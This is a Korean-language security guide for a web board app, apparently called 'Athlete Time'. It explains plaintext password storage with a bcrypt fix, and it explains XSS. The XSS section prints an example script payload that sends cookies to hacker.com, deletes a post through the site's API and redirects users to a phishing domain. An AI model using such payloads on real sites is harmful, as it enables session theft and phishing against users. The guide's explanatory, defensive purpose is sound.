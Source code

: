 # 🔒 애슬리트 타임 보안 가이드

## 🚨 현재 보안 취약점 상세 설명

### 1. 🔓 비밀번호 평문 저장 문제

#### 왜 위험한가?
```javascript
// 현재 상황 - 데이터베이스에 이렇게 저장됨
{
  id: 1,
  title: "게시글",
  password: "mypassword123"  // 😱 누구나 읽을 수 있는 평문!
}
```

**실제 위험 시나리오:**
1. **데이터베이스 유출 시**: 해커가 DB에 접근하면 모든 비밀번호를 즉시 사용 가능
2. **내부자 위협**: DB 관리자나 개발자가 사용자 비밀번호를 볼 수 있음
3. **백업 파일 노출**: 백업 파일이 유출되면 과거 모든 비밀번호 노출
4. **법적 책임**: 개인정보보호법 위반으로 과징금 부과 가능

#### bcrypt 해싱 솔루션
```javascript
// 평문: "mypassword123"
// bcrypt 해시: "$2b$10$N9qo8uLOickgx2ZMRZoMyeIjZAgcfl7p92ldGt8WJG/ttP4mhSL6i"
// 
// 특징:
// - 같은 비밀번호도 매번 다른 해시 생성 (salt 덕분)
// - 역변환 불가능 (단방향 암호화)
// - 검증은 가능하지만 원문 복구는 불가능
```

### 2. 💉 XSS (Cross-Site Scripting) 공격

#### 왜 위험한가?
사용자가 입력한 악성 스크립트가 다른 사용자 브라우저에서 실행됨

**실제 공격 예시:**
```javascript
// 해커가 게시글 제목에 이렇게 입력하면:
<script>
  // 1. 쿠키 훔치기
  fetch('https://hacker.com/steal?cookie=' + document.cookie);
  
  // 2. 사용자 대신 게시글 삭제
  fetch('/api/posts/1', { method: 'DELETE' });
  
  // 3. 피싱 사이트로 리다이렉트
  window.location = 'https://fake-athlete-time.com';
</script>

// 또는 이미지 태그 악용:
<img src="x" onerror="alert('해킹당함!')">
```
